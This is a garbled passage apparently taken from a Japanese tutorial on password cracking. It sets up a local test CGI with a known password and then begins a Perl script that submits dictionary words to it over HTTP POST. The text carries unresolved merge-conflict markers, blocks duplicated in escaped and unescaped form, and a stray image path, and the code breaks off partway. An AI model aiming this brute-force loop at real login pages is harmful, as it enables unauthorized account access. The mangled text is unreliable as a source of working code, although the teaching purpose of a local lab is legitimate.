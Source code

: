 exit;
<<<<<<< HEAD
-----
=======
\-\-\-\-\-
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781

　パスワードは"dJ"とします(dictionaryA.txt のちょうど100行目にあります)。
正しいパスワードが入力されたら"OK!"という文字列を出力し、そのほかはすべて
"NO!"という文字列を出力するようにしています。このCGIをパスワードクラック
のターゲットとします。では今度は攻撃するプログラムをかきます。

<<<<<<< HEAD
-----  crypt3.pl
#!/usr/bin/perl

use Socket;

#-- 初期設定
$server = 'localhost';
$path   = '/target.cgi';

open(FILE, $ARGV[0]) or die "file open error!\n";

while( $line = <FILE> ){
	chomp($line);
	$body = 'pwd=' . $line;
	$len  = length($body);

	#-- データ作成
	$data  = "POST $path HTTP/1.1\n";
	$data .= "Host: localhost\n";
	$data .= "Content-Length: $len\n";
	$data .= "\n";
	$data .= $body;

	#-- 改行を"\r\n"に変更
	$data =~ s/\x0D\x0A|\x0D|\x0A/\r\n/g;

	#-- 接続処理
	if((Connect($server, 'http', 'tcp', 80)) != 0){
=======
\-\-\-\-\-  crypt3.pl
\#!/usr/bin/perl

use Socket;

\#\-\- 初期設定
$server \= 'localhost';
$path   \= '/target.cgi';

open(FILE, $ARGV[0]) or die "file open error!\n";

while( $line \= <FILE> ){
	chomp($line);
	$body \= 'pwd\=' . $line;
	$len  \= length($body);
